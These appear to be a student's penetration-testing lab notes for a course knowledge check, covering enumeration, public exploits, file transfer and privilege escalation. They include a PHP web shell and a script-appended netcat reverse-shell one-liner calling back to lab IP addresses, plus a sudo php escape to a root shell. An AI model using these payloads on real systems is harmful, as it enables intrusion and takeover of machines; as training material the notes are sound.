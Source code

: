 base64 shell -w 0

echo .... | base64 -d > shell


#### Validating File Transfers
'file' command
'md5sum' command


#### Module 1 Knowledge Check
-----------------------------
- Enumeration/Scanning with `Nmap` - perform a quick scan for open ports followed by a full port scan
    
- Web Footprinting - check any identified web ports for running web applications, and any hidden files/directories. Some useful tools for this phase include `whatweb` and `Gobuster`
    
- If you identify the website URL, you can add it to your '/etc/hosts' file with the IP you get in the question below to load it normally, though this is unnecessary.
    
- After identifying the technologies in use, use a tool such as `Searchsploit` to find public exploits or search on Google for manual exploitation techniques

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8442 >/tmp/f"); ?>
```

- After gaining an initial foothold, use the `Python3 pty` trick to upgrade to a pseudo TTY
    
- Perform manual and automated enumeration of the file system, looking for misconfigurations, services with known vulnerabilities, and sensitive data in cleartext such as credentials

```shell-session
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.43 8442 >/tmp/f' | tee -a monitor.sh
```
    
- Organize this data offline to determine the various ways to escalate privileges to root on this target

If user can execute the php command:
sudo php -r "system('/bin/bash');"